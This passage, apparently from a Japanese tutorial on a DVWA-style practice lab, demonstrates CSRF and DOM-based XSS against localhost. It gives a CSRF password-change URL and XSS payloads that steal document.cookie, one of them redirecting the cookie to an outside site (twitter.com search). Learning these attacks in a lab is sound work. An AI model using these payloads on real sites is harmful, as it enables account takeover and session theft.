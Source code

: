 すると<br>
http://localhost/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change#
上記のurlへアクセスし、パスワードの変更が完了しました。urlから変更後のパスワードが確認できてしまいます。
これを見ると、例えば「hoge」というパスワードに変更させたい場合、

・サービスにログインしている状態
・かつ、http://localhost/vulnerabilities/csrf/?password_new=hoge&password_conf=hoge&Change=Change#

にアクセスさせれば実現できそうです。
実際にログインした状態で、上記のurlにアクセスすれば、該当ユーザーのパスワードが変更できてしまいました。
悪意のある人間が行う手法としては、サイト内に外部サイトへのリンクを用意し、そこに上記のurlを仕込むことができれば再現できるという状態です。

対策としては、まず重要なパスワードなどの情報をgetのパラメータに設定をしないようなアプリの設計が必要です。
また、postの場合でも変更時のリクエストに、一意のトークンを持っていない場合は処理を成功させないようにする必要があります。


### XSS

同じく上記サイトでXSSのメニューのうち、XSS（DOM）を選びます。
言語選択箇所で選ぶと、<br>
http://localhost/vulnerabilities/xss_d/?default=English
http://localhost/vulnerabilities/xss_d/?default=French
など、選択した言語がurlとして含まれます。<br>
ここにjavascriptを実行することで攻撃が可能です。<br><br>

例としてこのURLにアクセスすると、自分のクッキーが画面にアラートで表示されます。<br>
```
http://localhost/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```

ここでjsの実行が可能そうです。
```
http://localhost/vulnerabilities/xss_d/?default=<script>window.location="http://localhost?hisCookie="+document.cookie</script>
```

と入力すると、別のurlに飛ばし（この場合http://localhost）、さらにurl上にアクセスした人のクッキーが表示されます。<br>
例えばTwitterの検索後のurlも同様にクエリを含んでいるため、<br>
```
http://localhost/vulnerabilities/xss_d/?default=<script>window.location="https://twitter.com/search?q="+document.cookie+"&src=typed_query"</script>
```
と入力すると、Twitterの画面にとび、userのクッキーを取得できます。<br>